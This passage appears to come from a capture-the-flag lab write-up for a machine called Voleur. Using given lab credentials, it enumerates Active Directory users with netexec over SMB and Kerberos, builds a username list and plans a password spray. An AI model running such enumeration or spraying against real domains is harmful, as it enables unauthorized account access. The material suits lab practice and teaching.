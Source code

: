 Lets check our entry creds if will work smb and ldap.

![alt text](../assets/images/voleur1.png)

i will check `--users` module from netexec cause maybe some misconfiguration or description which is interesting.

```bash
faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --users
```

![alt text](../assets/images/voleur2.png)

okey something interesting but not what i want fully so i will create username list and do password spray.

```bash
➜  voleur cat nxcusers.txt | awk '{print $5}' > users.txt
➜  voleur cat users.txt 
Administrator
Guest
krbtgt
ryan.naylor
marie.bryant
lacey.miller
svc_ldap
svc_backup
svc_iis
jeremy.combs
svc_winrm
```

![alt text](../assets/images/voleur3.png)
